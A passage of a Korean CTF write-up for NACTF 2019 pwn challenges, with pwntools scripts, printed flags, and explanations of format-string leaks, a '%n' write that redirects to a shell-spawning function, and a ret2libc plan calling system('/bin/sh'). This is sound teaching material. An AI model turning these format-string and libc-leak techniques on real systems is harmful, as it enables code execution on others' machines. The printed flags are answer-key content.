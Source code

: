 ``` python
	x = remote("shell.2019.nactf.com", 31782)
	p = "%"+str(i)+"$p"
	x.sendline(p)
	x.recvuntil("You typed: ")
	res = x.recvline()[2:]
	flag += reverse(res)
	print(flag)
	
print flag
```
## flag
`nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}`

# Format #1
```
printf can do more than just read memory... can you change the variable?

Connect at nc shell.2019.nactf.com 31560
```
## exploit
이 코드에서는 win() 함수가 쉘을 실행시켜주기 때문에 win으로 넘어가기 위한 조건문을 성립시키기 위해 `FSB`로 num의 주소에 접근해서 값을 변경해주면 된다.
``` python
from pwn import *

x = remote("shell.2019.nactf.com", 31560)
#x = process("./format-1")

payload = "%42c%24$n"

x.recvuntil("Type something>")
x.sendline(payload)
x.interactive()
```
## flag
`nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}`

# Loopy #0
```
This program is quite short, but has got printf and gets in it! This shouldn't be too hard, right?

Connect at nc shell.2019.nactf.com 31283
```
## exploit
코드를 보면 flag.txt를 보여주지도 않고, 쉘을 띄워주는 코드도 없다. 직접 `system("/bin/sh")`를 실행해야 한다. system함수의 주소를 구하기 위해서 libc base가 필요한데 main이 종료되고 리턴하는 `__libc_start_main`의 주소를 `FSB`를 통해 스택에서 leak 하면 된다. 그리고 프로그램을 종료시키지 않고 한번에 바로 공격하기 위해 리턴주소를 overflow 해서 main으로 다시 향하게 한다. 구해진 `__libc_start_main`의 주소에서 해당 asm의 오프셋(241)을 빼면 실제 함수 주소가 나오고, 서버에서 로드되는 `libc.so.6`에서 같은 함수의 오프셋을 뽑아서 실제 함수 주소에서 차감하면 libc의 주소를 구할 수 있다. 구해진 libc에서 `libc.so.6`에서 뽑아온 system 함수의 오프셋을 더해서 실제 system 함수 주소를 구할 수 있다. 필요한 주소를 모두 구했으니 해당 함수를 실행하도록 overwrite를 한번 더 시도하면 된다.
```python
from pwn import *

#context.log_level = "debug"


#x = process("./loopy-0")
x = remote("shell.2019.nactf.com", 31283)
c_main = 0x080491e7
```